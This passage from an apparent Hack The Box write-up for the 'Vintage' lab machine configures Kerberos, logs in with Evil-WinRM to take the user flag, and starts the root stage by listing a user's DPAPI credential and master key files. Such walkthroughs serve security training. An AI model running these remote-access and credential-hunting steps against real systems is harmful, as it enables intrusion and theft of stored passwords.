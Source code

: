 When we attempt to connect via WinRM, we got an error that the KDC cannot be found. To fix this we need to edit our `/etc/krb5.conf` file as follows:

```console
$ cat /etc/krb5.conf
[libdefault]
        default_realm = VINTAGE.HTB

[realms]
        VINTAGE.HTB = {
                kdc = dc01.vintage.htb
                admin_server = dc01.vintage.htb
        }

[domain_realm]
        vintage.htb = VINTAGE.HTB
        .vintage.htb = VINTAGE.HTB
```

We can now login with Evil-WinRM and get the user flag.

```console
$ evil-winrm -i dc01.vintage.htb -r vintage.htb

*Evil-WinRM* PS C:\Users\C.Neri\Documents> cat ../Desktop/user.txt
39047a49c3aba32d093084d6f0bcb4ea
```

## Root
We can look for any stored credentials and try to extract them. The DPAPI (Data Protection API) is an internal component in the Windows system. It allows various applications to store sensitive data (e.g. passwords). The data are stored in the users directory and are secured by user-specific master keys derived from the users password. They are usually located at `C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID`. Lets have a look if our user has any credentials stored.

```console
*Evil-WinRM* PS C:\Users\C.Neri> gci -force AppData\Roaming\Microsoft\Credentials

Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   5:08 PM            430 C4BB96844A5C9DD45D5B6A9859252BA6

*Evil-WinRM* PS C:\Users\C.Neri> gci -force AppData\Roaming\Microsoft\Protect

Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-          6/7/2024   1:17 PM                S-1-5-21-4024337825-2033394866-2055507597-1115
-a-hs-          6/7/2024   1:17 PM             24 CREDHIST
-a-hs-          6/7/2024   1:17 PM             76 SYNCHIST

*Evil-WinRM* PS C:\Users\C.Neri> gci -force AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115

Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   1:17 PM            740 4dbf04d8-529b-4b4c-b4ae-8e875e4fe847
-a-hs-          6/7/2024   1:17 PM            740 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
-a-hs-          6/7/2024   1:17 PM            904 BK-VINTAGE
-a-hs-          6/7/2024   1:17 PM             24 Preferred
```